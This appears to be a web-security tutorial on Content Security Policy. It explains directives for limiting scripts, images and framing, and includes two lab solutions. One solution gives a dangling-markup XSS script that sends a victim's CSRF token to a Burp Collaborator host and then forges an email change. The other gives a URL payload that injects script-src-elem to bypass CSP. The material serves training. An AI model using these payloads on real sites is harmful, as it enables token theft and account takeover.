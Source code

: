 # CSP Content Security Policy 

CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

To enable CSP, a response needs to include an HTTP response header called Content-Security-Policy with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

## Mitigating XSS attacks using CSP

The following directive will only allow scripts to be loaded from the same origin as the page itself:
```script-src 'self'```

The following directive will only allow scripts to be loaded from a specific domain:
```script-src https://scripts.normal-website.com```

Care should be taken when allowing scripts from external domains. If there is any way for an attacker to control content that is served from the external domain, then they might be able to deliver an attack. For example, content delivery networks (CDNs) that do not use per-customer URLs, such as ajax.googleapis.com, should not be trusted, because third parties can get content onto their domains.

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

It's quite common for a CSP to block resources like script. However, many CSPs do allow image requests. This means you can often use img elements to make requests to external servers in order to disclose CSRF tokens, for example.

Some browsers, such as Chrome, have built-in dangling markup mitigation that will block requests containing certain characters, such as raw, unencoded new lines or angle brackets.

Some policies are more restrictive and prevent all forms of external requests. However, it's still possible to get round these restrictions by eliciting some user interaction. To bypass this form of policy, you need to inject an HTML element that, when clicked, will store and send everything enclosed by the injected element to an external server.

### Reflected XSS protected by very strict CSP, with dangling markup attack

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to *hacker@evil-user.net*.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

```<a href="">Click me</a>```

**Solution:**
1. Log in to the lab using the account provided above.
2. Examine the change email function. Observe that there is an XSS vulnerability in the *email* parameter.
3. Go to the Collaborator tab.
4. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
5. Back in the lab, go to the exploit server and add the following code, replacing *YOUR-LAB-ID* and *YOUR-EXPLOIT-SERVER-ID* with your lab ID and exploit server ID respectively, and replacing *YOUR-COLLABORATOR-ID* with the payload that you just copied from Burp Collaborator.
    ```
    <script>
    if(window.name) {
        new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
        } else {
            location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
    }
    </script>
    ```
6. Click "Store" and then "Deliver exploit to victim". When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using Burp Collaborator.
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.
8. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
9. In Burp, go to the intercepted request and change the value of the email parameter to *hacker@evil-user.net*.
10. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
11. Click "Options" and make sure that the "Include auto-submit script" is activated.
12. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
13. Drop the request and switch off the intercept feature.
14. Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
15. Click "Store" and "Deliver exploit to victim". The user's email will be changed to *hacker@evil-user.net*.

## Mitigating dangling markup attacks using CSP
The following directive will only allow images to be loaded from the same origin as the page itself:
```img-src 'self'```

The following directive will only allow images to be loaded from a specific domain:
```img-src https://images.normal-website.com```

Note that these policies will prevent some dangling markup exploits, because an easy way to capture data with no user interaction is using an img tag. However, it will not prevent other exploits, such as those that inject an anchor tag with a dangling *href* attribute.

## Bypassing CSP with policy injection

You may encounter a website that reflects input into the actual policy, most likely in a *report-uri* directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. Usually, this *report-uri* directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.

Normally, it's not possible to overwrite an existing *script-src* directive. However, Chrome recently introduced the *script-src-elem* directive, which allows you to control *script* elements, but not events. Crucially, this new directive allows you to overwrite existing script-src directives. Using this knowledge, you should be able to solve the following lab.

### Reflected XSS protected by CSP, with CSP bypass

This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the *alert* function.

Please note that the intended solution to this lab is only possible in Chrome.

**Solution:**
1. Enter the following into the search box:
    ```<img src=1 onerror=alert(1)>```
2. Observe that the payload is reflected, but the CSP prevents the script from executing.
3. In Burp Proxy, observe that the response contains a *Content-Security-Policy* header, and the *report-uri* directive contains a parameter called *token*. Because you can control the *token* parameter, you can inject your own CSP directives into the policy.
4. Visit the following URL, replacing *YOUR-LAB-ID* with your lab ID:
    ```https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27```
    The injection uses the *script-src-elem* directive in CSP. This directive allows you to target just *script* elements. Using this directive, you can overwrite existing *script-src* rules enabling you to inject *unsafe-inline*, which allows you to use inline scripts.

## Protecting against clickjacking using CSP

The following directive will only allow the page to be framed by other pages from the same origin:
```frame-ancestors 'self'```

The following directive will prevent framing altogether:
```frame-ancestors 'none'```

Using content security policy to prevent clickjacking is more flexible than using the X-Frame-Options header because you can specify multiple domains and use wildcards. For example:
```frame-ancestors 'self' https://normal-website.com https://*.robust-website.com```

CSP also validates each frame in the parent frame hierarchy, whereas X-Frame-Options only validates the top-level frame.

Using CSP to protect against clickjacking attacks is recommended. You can also combine this with the *X-Frame-Options* header to provide protection on older browsers that don't support CSP, such as Internet Explorer.